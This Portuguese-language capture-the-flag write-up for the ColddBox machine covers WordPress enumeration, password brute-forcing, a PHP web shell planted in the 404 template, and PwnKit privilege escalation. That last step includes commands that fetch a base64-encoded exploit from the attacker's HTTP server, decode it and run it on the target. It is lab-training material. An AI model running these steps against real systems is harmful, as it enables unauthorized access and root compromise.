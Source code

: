 # _**Colddbox CTF**_
![](cold.jpg)

## _**Enumeraão**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Parece que temos uma página web, vamos investigar  
Parece que temos wordpress, vamos tentar enumerar seus diretórios com <mark>wpscan</mark>
> ```bash
> wpscan --url [ip_address] --enumerate vp,vt,cb
> ```
![](wpscan.jpg)

Temos algumas informações úteis, mas nada que podemos explorar  
Com um sca <mark>Nmap</mark>, também obtemos informações de diretórios
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-content/CMS/wordpress.fuzz.txt
> ```
![](scan_gobuster.jpg)

## _**Ganhando acesso**_

Ainda podemos tentar enumerar usuários e tentar realizar brute-force  
Para isso, vamos:
> ```bash
> wpscan --url http://[ip_address] -e u -P /usr/share/wordlists/rockyou.txt
> ```
![](bruet_wpscan.jpg)

Sucesso!  
Vamos realizar login com o usuário ```c0ldd``` e senha descobertos  
Após o login, podemos usar os recursos sofisticados do modelo 404 do WordPress, que permitem a incorporação de código PHP  
O WordPress é muito inseguro por permitir isso por padrão  
Então, é fácil: podemos usar isso para incorporar nosso shell web PHP nesse modelo  

![](reverse_php.jpg)  

![](shell_php.jpg)  

E temos um shell!  
Vamos melhorar com ```python3 -c 'import pty, os; pty.spawn("/bin/bash")'```  

## _**Escalando privilégios**_
Executando o comando ```find / -perm -4000 -type f 2>/dev/null```, temos o retorno de um arquivo peculiar: **pkexec**  
Podemos explorar essa falha com <mark>PwnKit</mark>  
Ao tentar realizar a transferência de arquivos para a máquina-alvo, temos como bloqueado  
Para contornar, vamos executar alguns comandos  

<mark>Primeiro, em nossa máquina</mark>
> ```bash
> base64 pwnkit > pwnkit.b64
> ```
> ```bash
> python3 -m http.server 8080
> ```

<mark>Segundo, na máquina-alvo</mark>
> ```bash
> wget http://[ip_address]:8000/pwnkit.b64 -O /tmp/pwnkit.b64
> ```
> ```bash
> base64 -d /tmp/pwnkit.b64 > /tmp/pk
> ```
> ```bash
> chmod +x /tmp/pk
> ```
> ```bash
> cd /tmp
> ```
> ```bash
> ./pk
> ```
![](root.jpg)

Agora basta apenas buscar as flags!
